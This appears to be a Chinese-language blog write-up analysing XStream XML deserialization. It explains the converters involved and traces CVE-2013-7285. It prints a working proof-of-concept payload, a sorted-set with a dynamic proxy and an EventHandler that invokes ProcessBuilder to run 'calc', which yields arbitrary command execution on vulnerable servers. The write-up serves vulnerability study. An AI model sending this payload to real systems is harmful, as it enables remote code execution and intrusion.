




# 0x01 What Is XStream

XStream是Java的一个XML序列化组件，能够将JAVA对象和XML文档相互转换。

```xml
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.10</version>
</dependency>
```

```java
// Person.java
package org.example;

import java.io.IOException;
import java.io.Serializable;

public class Person implements Serializable {
    public String name;
    public Company company;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Company getCompany() {
        return company;
    }

    public void setCompany(Company company) {
        this.company = company;
    }

    public Person(String name, Company company) {
        this.name = name;
        this.company = company;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("Person");
    }

}
```

```java
// Company.java
package org.example;

import java.io.IOException;
import java.io.Serializable;

public class Company implements Serializable {
    public String addr;
    public String comName;

    public String getAddr() {
        return addr;
    }

    public void setAddr(String addr) {
        this.addr = addr;
    }

    public String getComName() {
        return comName;
    }

    public void setComName(String comName) {
        this.comName = comName;
    }

    public Company(String addr, String comName) {
        this.addr = addr;
        this.comName = comName;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("Company");
    }

}
```

```java
package org.example;

import com.thoughtworks.xstream.XStream;

public class Test {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        Person person = new Person("taco", new Company("LA", "test"));
        String xml = xStream.toXML(person);
        System.out.println(xml);
    }
}
```

```xml
<org.example.Person serialization="custom">
  <org.example.Person>
    <default>
      <company serialization="custom">
        <org.example.Company>
          <default>
            <addr>LA</addr>
            <comName>test</comName>
          </default>
        </org.example.Company>
      </company>
      <name>taco</name>
    </default>
  </org.example.Person>
</org.example.Person>
```

若类不实现`Serializable`接口，转化结果如下：

```xml
<org.example.Person>
  <name>taco</name>
  <company>
    <addr>LA</addr>
    <comName>test</comName>
  </company>
</org.example.Person>
```

`TreeMarshaller#convertAnother`根据

```java
public void convertAnother(Object item, Converter converter) {
    if (converter == null) {
        converter = converterLookup.lookupConverterForType(item.getClass());
    } //...
    convert(item, converter);
}
```

首先根据待转换对象的类来获取`converter`，XStream使用不同的`converter`来处理序列化数据中不同类型的数据。



先从缓存`converter`中查找，接着遍历XStream中注册的`converter`，判断`canConvert`寻找对应类型的转换器，若找到则放入缓存`typeToConverterMap`中

对于实现`Serializable`接口的类，返回`SerializableConverter`；普通类返回`ReflectionConverter`



XStream初始化会设置类别名，可直接使用别名作为标签

`xStream.fromXML(xml);`用于将XML转化为对象，就是反序列化的过程

可以发现调用了我们重写的`readObject`方法，那么漏洞就油然而生了。

# 0x02 CVE Analy

## CVE 2013-7285

1.3.1<XStream<1.4 

1.4.5<=XStream<=1.4.6

XStream=1.4.10

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy> <!-- Proxy 动态代理，handler使用EventHandler -->
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>calc</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

在反序列化解析xml的过程中对绑定EventHandler的动态代理对象调用其绑定接口的方法从而触发到EventHandler的invoke方法，最终触发了命令执行

`TreeUnmarshaller#start`开始反序列化



`HierarchicalStreams#readClassType`获取当前节点并返回其对应的类，即`java.util.SortedSet`

`lookup`转换器时找到`TreeSetConverter`，跟进`convert` => `converter.unmarshal`

`treeMapConverter.populateTreeMap`



接着调用`populateMap`，实际上接下来就是开始循环遍历子标签并将其转化为对应的类

接下来解析`dynamic-proxy`

跟到`DynamicProxyConverter#unmarshal`

```java
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    List interfaces = new ArrayList();
    InvocationHandler handler = null;
    Class handlerType = null;
    while (reader.hasMoreChildren()) {
        reader.moveDown();
        String elementName = reader.getNodeName();
        if (elementName.equals("interface")) {
            interfaces.add(mapper.realClass(reader.getValue()));
        } else if (elementName.equals("handler")) {
            String attributeName = mapper.aliasForSystemAttribute("class");
            if (attributeName != null) {
                handlerType = mapper.realClass(reader.getAttribute(attributeName));
                break;
            }
        }
        reader.moveUp();
    }
    if (handlerType == null) {
        throw new ConversionException("No InvocationHandler specified for dynamic proxy");
    }
    Class[] interfacesAsArray = new Class[interfaces.size()];
    interfaces.toArray(interfacesAsArray);
    Object proxy = null;
    if (HANDLER != null) { // we will not be able to resolve references to the proxy
        proxy = Proxy.newProxyInstance(classLoaderReference.getReference(), interfacesAsArray, DUMMY);
    }
    handler = (InvocationHandler) context.convertAnother(proxy, handlerType);
    reader.moveUp();
    if (HANDLER != null) {
        Fields.write(HANDLER, proxy, handler);
    } else {
        proxy = Proxy.newProxyInstance(classLoaderReference.getReference(), interfacesAsArray, handler);
    }
    return proxy;
}
```

解析子标签的`interface`和`handler`，构建动态代理对象

